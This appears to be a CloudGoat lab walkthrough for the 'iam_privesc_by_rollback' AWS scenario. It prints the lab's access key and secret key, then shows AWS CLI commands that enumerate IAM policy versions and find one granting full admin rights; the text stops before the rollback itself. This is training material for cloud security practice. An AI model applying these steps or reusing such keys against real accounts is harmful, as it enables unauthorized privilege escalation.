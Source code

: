 # iam_privesc_by_rollback

cloudgoat_output_aws_account_id = "127553332731"
cloudgoat_output_policy_arn = "arn:aws:iam::127553332731:policy/cg-raynor-policy-cgidmgbtqp9xv2"
cloudgoat_output_raynor_access_key_id = "AKIAR3MWFMX5XGDEQZXT"
cloudgoat_output_raynor_secret_key = "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"
cloudgoat_output_username = "raynor-cgidmgbtqp9xv2"

```shell-session
╭─zoey@parrot-virtual ~/sec/cloudgoat/cloudgoat ‹master*› 
╰─$ aws iam list-attached-user-policies --user-name raynor-cgidmgbtqp9xv2 --profile cg-raynor               
{
    "AttachedPolicies": [
        {
            "PolicyName": "cg-raynor-policy-cgidmgbtqp9xv2",
            "PolicyArn": "arn:aws:iam::127553332731:policy/cg-raynor-policy-cgidmgbtqp9xv2"
        }
    ]
}
```

```shell-session
╭─zoey@parrot-virtual ~/sec/cloudgoat/cloudgoat ‹master*› 
╰─$ aws iam list-policy-versions --policy-arn arn:aws:iam::127553332731:policy/cg-raynor-policy-cgidmgbtqp9xv2 --profile cg-raynor
{
    "Versions": [
        {
            "VersionId": "v5",
            "IsDefaultVersion": false,
            "CreateDate": "2021-02-16T01:28:35+00:00"
        },
        {
            "VersionId": "v4",
            "IsDefaultVersion": false,
            "CreateDate": "2021-02-16T01:28:35+00:00"
        },
        {
            "VersionId": "v3",
            "IsDefaultVersion": false,
            "CreateDate": "2021-02-16T01:28:35+00:00"
        },
        {
            "VersionId": "v2",
            "IsDefaultVersion": false,
            "CreateDate": "2021-02-16T01:28:35+00:00"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": true,
            "CreateDate": "2021-02-16T01:28:34+00:00"
        }
    ]
}
```

```
╭─zoey@parrot-virtual ~/sec/cloudgoat/cloudgoat ‹master*› 
╰─$ aws iam get-policy-version --policy-arn arn:aws:iam::127553332731:policy/cg-raynor-policy-cgidmgbtqp9xv2 --profile cg-raynor --version-id v2
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": false,
        "CreateDate": "2021-02-16T01:28:35+00:00"
    }
}
```